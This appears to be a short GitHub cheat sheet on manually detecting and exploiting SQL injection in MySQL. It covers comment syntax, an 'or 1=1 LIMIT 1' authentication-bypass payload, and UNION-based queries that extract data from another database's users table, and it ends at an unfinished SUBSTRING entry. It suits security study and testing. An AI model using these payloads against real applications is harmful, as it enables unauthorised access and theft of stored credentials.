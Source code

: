# MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  # <br>
2.  -- (After double dash put space) <br>
3.  /**/  <br>
 Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
 # MySQL LIMIT Clause  <br>
 1. The LIMIT clause is used to specify the number of records to return.  <br>
  Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
 # MySQL UNION Operator  <br>
 1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
  # Substring  <br>
  1. SUBSTRING('MySQL', 3, 2)  <br>
  
    
